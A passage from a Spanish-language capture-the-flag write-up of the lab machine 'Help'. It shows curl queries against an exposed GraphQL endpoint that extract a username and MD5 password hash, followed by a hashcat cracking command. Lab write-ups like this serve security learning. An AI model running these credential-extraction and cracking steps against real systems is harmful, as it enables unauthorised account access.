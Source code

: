 ![image](https://github.com/user-attachments/assets/fe9cc150-0bba-4e94-b8c4-09e07eead28f)


```
|message|"Hi Shiv, To get access please find the credentials with given query"|
```


En la pestaña "Headers" vemos que en la respuesta está especificando que se está empleando Express. 

![image](https://github.com/user-attachments/assets/3ebe8c61-1bb4-4756-bda0-b42817b8e27c)


Googleando sobre «Express js query language» nos encontramos con resultados relacionados con GraphQL.

Al navegar al recurso /graphql nos indica que falta por especificar un parámetro de tipo GET en la solicitud:


![image](https://github.com/user-attachments/assets/a66ceb2d-5227-4016-80fb-75e58f69d3a7)


A continuación intentamos consultar información. Un endpoint graphql toma objetos como entrada. Como necesitamos información relacionada con un usuario vamos a probar con un objeto usuario. Usamos jq para formatear la salida a JSON

```
curl -s -G http://10.10.10.121:3000/graphql --data-urlencode "query={user}" | jq
```

![image](https://github.com/user-attachments/assets/0a5b3cb8-b77c-4057-abf7-54a97b366dd5)


La respuesta nos indica que parece que la petición espera que se especifiquen subcampos. Probamos por ejemplo con el campo username o usernames:

```
curl -s -G http://help.htb:3000/graphql --data-urlencode 'query={user {username} }' | jq
```

![image](https://github.com/user-attachments/assets/df469459-e262-4c5c-a38e-3c930e84a7cc)


Encontramos un usuario, ahora podemos ir más allá e intentar también obtener el campo contraseña a ver si existe:

```
 curl -s -G http://help.htb:3000/graphql --data-urlencode 'query={user {username, password} }' |
jq
```

![image](https://github.com/user-attachments/assets/23785dff-606d-41c2-b062-dcf3e8616c59)


![image](https://github.com/user-attachments/assets/96e45ad4-2f5b-4d10-a08e-a4205bb7f3cd)


Parece que el campo contraseña es un hash MD5. Usamos hashcat para intentar crackearlo:

```
hashcat -m 0 hash_helpme /usr/share/wordlists/rockyou.txt    
```
